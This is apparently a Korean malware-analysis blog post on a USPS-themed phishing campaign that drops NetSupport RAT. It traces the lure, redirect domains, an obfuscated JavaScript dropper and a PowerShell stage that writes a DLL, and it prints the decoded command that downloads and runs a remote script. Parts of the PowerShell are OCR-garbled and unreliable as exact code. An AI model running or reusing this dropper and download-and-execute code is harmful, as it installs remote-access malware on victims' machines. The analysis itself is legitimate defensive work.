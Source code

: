 +++
title = "USPS 위장 NETSUPPORT RAT 악성코드.pdf"
date = "2025-01-29T16:39:52+09:00"
author = "sayoon"
tags = ["악성코드분석"]
keywords = ["메일 위장", "악성코드"]
description = "USPS 패키지 배송 관련 메일로 위장한 악성코드"
showFullContent = false
readingTime = false
hideComments = false
+++

> **3줄 요약**
>
> 1. 실행 시 `winlogdate.exe` 파일 드롭
> 2. 레지스트리 수정으로 로그인 마다 실행
> 3. 통신 및 원격 접속으로 개인정보 탈취

### 분석 파일

- 파일: [link](https://www.malware-traffic-analysis.net/2022/12/28/index.html)

**_발퀄 및 건너짚기가 남발하는 문서임니당_**

<br>

## 1. 배포 경로

![email](image.png)

이 악성코드의 시작점은 이메일이다.  
아래 그림과 같이 운송업체 USPS를 위장한 메일을 보내 사용자가 외부 링크로 접속하도록 유도한다.

<br/>

## 2. 패킷 분석

사용자가 <kbd>Download Details</kbd>를 클릭하면 **lbbyqluzu.cracknight.ru**로 연결된다.  
이후 `302` 상태 코드를 받고 **patrickforeilly.com**으로 리다이렉트 된다

![packet](image-1.png)

위 사진을 보면 **patrickforeilly.com**에서 `application/zip` 타입의 콘텐츠를 요청하고 있다.  
해당 파일을 확인한 결과, 아래와 같이 `javascript`파일을 담고 있는 것을 확인 할 수 있다

![alt text](image-2.png)
![alt text](image-3.png)

<br/>

## 3. 파일 분석

### 1) `4043_PCM.js` 파일

`4043_PCM.js` 파일은 난독화 된 `js`파일로, `eval` 명령어를 확인할 수 있었다.
이를 치환하면 아래와 같은 파일을 얻을 수 있었다.

```none
//UmExrsgJuDvLhVadkAWOTICPXF oMKilXfTnLOHCUhAFBP = "sheLl"; YZqOsTxnMmpABJCF = new
ActiveXObject(oMKilXfTnLOHCUhAFBP+"."+ //IxqOgMKi "ApPlIcAtIon"); FkLgcBCiVTGsmxdvpeb = new
ActiveXObject("SCRiPtIng.filesystemobJECt"); if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:\\pROgRa"+ //IxqOgMKi
"mdAta\\mIcRosOft\\wINdoWs")) { //YhALZvBkfyGVcEPoHRNqIM YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c"+ //IxqOgMKi "
Power"+oMKilXfTnLOHCUhAFBP+" -nop -w hidden "+ //IxqOgMKi "-ep bypaSS -enC SQ"+ //IxqOgMKi "BFAFgAIAAoA"+
//IxqOgMKi "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb"+ //IxqOgMKi
"gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI"+ //IxqOgMKi "AaQBuAGcAKA"+ //IxqOgMKi "AiAGgAdAB0AHAA"+ //IxqOgMKi
"OgAvAC8"+ //IxqOgMKi "AMQBvAHQ"+ //IxqOgMKi "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA"+ //IxqOgMKi
"BlAHgALgBwAGgAcAAiACkA", "", "open", 0); } //kdbyVceRuXIHitqmTjngWxOZAG
```

위 코드를 보기 쉽게 풀면,

```js
UmExrsgJuDvLhVadkAWOTICPXF oMKilXfTnLOHCUhAFBP = "shell";
YZqOsTxnMmpABJCF = new ActiveXObject(“shell” + ".Application");
FkLgcBCiVTGsmxdvpeb = new ActiveXObject("scripting.filesystemobject");
if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:\\pROgRa" + "mdAta\\mIcRosOft\\wINdoWs")) {
	YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c Power" + sheLl + " -nop -w hidden -epbypass -enC SQ...", "", "open", 0);
}
```

변수 `UmExrsgJuDvLhVadkAWOTICPXF oMKilXfTnLOHCUhAFBP`, `YZqOsTxnMmpABJCF`, `FkLgcBCiVTGsmxdvpeb`를 이용해 난독화된 변수명을 다시 바꿔주면,

```javascript
if (
  ActiveXObject("scripting.filesystemobject").FolderExists(
    "C:ProgramData\\MicrosoftWindows"
  )
) {
  ActiveXObject("scripting.filesystemobject").ShellExecute(
    "cmd",
    "/c Powershell -nop -w hidden -ep bypass -enC ...",
    "open",
    0
  );
}
```

이는 `C:\ProgramData\\Microsoft\Windows` 경로가 존재한다면, `Powershell `을 실행하는 명령어이다.

- `-w hidden` 옵션으로 `Powershell` 이 백그라운드에서 실행되도록 하고,
- `-enC` 옵션으로 `base64` 로 인코딩 된 명령어를 실행하므로

마지막 인자를 확인하면 어떤 `Powershell` 명령을 실행하는지 알 수 있다.

마지막 인자는 아래와 같고

```none
SQ"+ //IxqOgMKi "BFAFgAIAAoA"+ //IxqOgMKi "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb"+
//IxqOgMKi "gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI"+ //IxqOgMKi "AaQBuAGcAKA"+ //IxqOgMKi "AiAGgAdAB0AHAA"+
//IxqOgMKi "OgAvAC8"+ //IxqOgMKi "AMQBvAHQ"+ //IxqOgMKi "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA"+ //IxqOgMKi
"BlAHgALgBwAGgAcAAiACkA
```

필요 없는 문자열 `//Ixq0gMKi`를 지우고,
`base64`로 디코딩하면

```powershell
IEX(New-Object Net.Webclient).downloadstring("http://1otal.com/index/index.php")
```

라는 명령어가 나오는데, 이는 `http://1otal.com/index/index.php` 에서 스크립트를 다운 받아 실행하는 윈도우 powershell 명령어이다.

> 종합하자면, `4043_PCM.js` 파일은 난독화된 `javascript` 파일을 `eval`을 이용하여 실행하는데,  
> 특정 `url`에서 `php`를 다운받아 `powershell`로 실행하는 악성 스크립트이다.

<br/>

### 2) **index.php**

네트워크 패킷을 분석해 봐도 `index.php`를 요청하는 것을 볼 수 있다.

![alt text](image-4.png)

해당 파일을 분석해보면 아래와 같이

```php
function rEacT (${sOuRce}, ${deSTiNAtION})

{
&("{3}{O}{1}{2}HEH4}{S}"-f * '-', 'St', 'ring’, 'Convert', 'oBinar’, 'y', 'T') -InputString ${sOURce} -FilePath $
{destINATiON};

}

function coNVErt-STRINGTOBiNARy
¢

${iNDUTStRInG}, ${FilepATh}
)

${FiLe}= ${INPuTSTrInG}

${DATA} = ${328Nq}::("{3}{1}{2H0}" -f 'g', 'romBas' , 'e64Strin’, 'F').Invoke(${FI1E})
S${MS} = &("{1}{O}{2}"-f '-Objec’,'New','t') ("{4}{3H1HO}{2}" -f 're','St', 'am’, '10.Memory' , 'System. ')

${mS}. ("{O}{1}" -f 'Wri’, 'te').Invoke(${dATa}, 0, ${DATA}."LeNGtH")
${ms}.("{O}{1}" -f 'S','eek’).Invoke(0,0) | &("{O}{1}" -f'Out-Nu', 'LL')

${cS} = &("{O}{2}{1}{3}"-F'Ne",'-",'w', Object’) ("{OHSHEHIHSH3H2H7HI{4}"-f 'S',"pStrea’,'ion.GZ','s’,
'm','ystem.10','.Com','i','res','p')(${ms},  (&("{2}{1}{0}" -f "ARIABLE','-v','get') ('1L'+'VbgH') -vAL )
::"dEcOMpREss")

${Sr} = &("{OH{2H{1}" -f 'New-Obj','ct','e') (“{4}{1}{6}{0}{3}{5}{2}"-f *.10.Stre','e','der’,'a’, Syst’, 'mRea’,
*m')(${cS})
${t} = ${Sr}.("{0}{1}{2}"-f' read’, 'toen','d').Invoke()

${bYTeARRAy} = (&("{1}{2}{0}" -f 'abLE','g',"Et-vaRI') ("3"+"28Nq") -VaLuEonly )::("{O}{3}{1}{2}"-f 'FromBase*
*ri','ng','64St").Invoke(${t});
( &("{O}{1}{2}"-F'GET-",i','Tem') (“vAriABL"+"E:uE"+"4yC")) . "VALUE": : ("{3}{1}{4}{2}{0}"-f Bytes’, 'rit’, 'ALL',
'w',"e').Invoke(${FIlepAth}, ${bYTEarRAy});

```

- **rEacT**
- **coNVErt-STRINGTOBiNARy**

두 개의 함수를 확인할 수 있는데, `convert-stringtobinary`만 봐도 뭔가 수상하다!

![alt text](image-5.png)

이 부분을 보면, `{0}` ~ `{9}`까지 배열에 특정한 문자열을 저장한 것을 볼 수 있는데, 이를 해당하는 부분과 치환하면,

```php
${SOURcE} = ${fiLe3}
${deSTINaTIoN} = "$fpath\HTCTL32.DLL"
&() -source ${soUrce} -destination ${destination}
```
